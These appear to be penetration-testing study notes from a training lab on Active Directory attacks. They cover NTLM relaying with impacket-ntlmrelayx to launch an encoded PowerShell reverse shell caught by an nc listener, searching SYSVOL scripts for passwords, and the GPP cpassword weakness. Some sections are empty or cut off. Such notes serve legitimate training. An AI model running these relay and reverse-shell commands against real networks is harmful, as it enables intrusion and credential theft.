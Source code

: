 First, we need to set SMB to OFF in our responder configuration file (/etc/responder/Responder.conf).

```
$ cat /etc/responder/Responder.conf | grep 'SMB ='
```

We can create a PowerShell reverse shell 
```bash
$ impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146

$ impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <revshell> '

$ nc -lvnp 9001
```

## Low Hanging Fruits
### ZeroLogon

### Credentials in SMB Shares and SYSVOL Scripts
The SYSVOL share can be a treasure trove of data, especially in large organizations. We may find many different batch, VBScript, and PowerShell scripts within the scripts directory, which is readable by all authenticated users in the domain. It is worth digging around this directory to hunt for passwords stored in scripts. Sometimes we will find very old scripts containing since disabled accounts or old passwords, but from time to time, we will strike gold, so we should always dig through this directory. Here, we can see an interesting script named reset_local_admin_pass.vbs.

#### Discovering 
```
PS > ls \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts
```

### Group Policy Preferences (GPP) Passwords
When a new GPP is created, an .xml file is created in the SYSVOL share, which is also cached locally on endpoints that the Group Policy applies to. These files can include those used to:

- Map drives (drives.xml)
- Create local users
- Create printer config files (printers.xml)
- Creating and updating services (services.xml)
- Creating scheduled tasks (scheduledtasks.xml)
- Changing local admin passwords.
- These files can contain an array of configuration data and defined passwords. The cpassword attribute value is AES-256 bit encrypted, but Microsoft published the AES private key on MSDN, which can be used to decrypt the password. Any domain user can read these files as they are stored on the SYSVOL share, and all authenticated users in a domain, by default, have read access to this domain controller share.

This was patched in 2014 MS14-025 Vulnerability in GPP could allow elevation of privilege, to prevent administrators from setting passwords using GPP. The patch does not remove existing Groups.xml files with passwords from SYSVOL. If you delete the GPP policy instead of unlinking it from the OU, the cached copy on the local computer remains.
